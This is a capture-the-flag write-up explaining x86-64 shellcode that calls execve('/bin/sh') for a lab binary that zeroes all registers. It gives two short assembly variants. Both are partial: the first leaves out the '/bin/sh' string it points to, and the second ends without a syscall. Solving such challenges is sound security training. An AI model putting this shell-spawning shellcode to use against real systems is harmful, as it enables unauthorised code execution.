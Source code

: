 # back_to_shell
The goal is to "pop a shell with all the registers at zero" in order to read the flag.

## Context
- The shellcode is read from `stdin` and placed into the `rax` register for execution.
- The binary zeroes out all registers (as observed in GDB).

## Approach
A simple shellcode is needed to invoke a shell using the execve("/bin/sh", NULL, NULL):
```{asm}
mov rdi, rax     ; move the content of rax (shellcode address) into rdi
add rdi, 19      ; adjust the pointer by 19 to point to the string "/bin/sh"
xor rax, rax     ; clear rax
mov rax, 0x3b    ; 0x3b is the syscall number for execve in Linux x86_64
syscall          ; execute the syscall
```

- We add 19 to `rdi` to adjust the pointer, which has been moved by the shellcode itself. 19 is the offset between the start of the shellcode and the string "/bin/sh".
- We trigger a system call using the syscall number in `rax` and the arguments in the appropriate registers. Since the registers are initially zeroed by the binary, both `rsi` and `rdx` (second and third arguments of execve) are already NULL.

## Alternative solution
Another solution is to put the string "/bin/sh" in the stack 
```{asm}
xor rax, rax                     
mov rax, 0x3b                    
mov rdi, 0x0068732f6e69622f    ; move /bin/sh into rdi  
push rdi                       ; pushes /bin/sh onto the stack.
mov rdi, rsp                   ; points rdi to the location of /bin/sh on the stack.
```
- To push it correctly onto the stack, the bytes of "/bin/sh" must be reversed since the system uses little endian. 
